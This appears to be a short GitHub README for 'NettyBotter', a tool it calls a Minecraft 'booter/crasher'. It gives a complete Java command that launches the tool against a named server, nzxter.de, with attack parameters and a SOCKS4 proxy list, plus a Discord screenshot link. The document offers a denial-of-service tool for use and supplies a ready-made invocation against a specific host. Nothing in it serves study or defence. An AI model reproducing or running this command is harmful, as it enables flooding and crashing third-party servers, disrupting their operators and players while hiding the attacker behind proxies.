# NettyBotter
the best minecraft booter/crasher with netty networking

java -Dperdelay=2500 -Ddelay=1 -Drmnwp=false -Dr=false -Dlen=25555 -jar nettybooter.jar nzxter.de 7 5 47 60 socks4_proxies.txt socks4

https://cdn.discordapp.com/attachments/796313633256767568/850441696134692865/Unbenannt.PNG
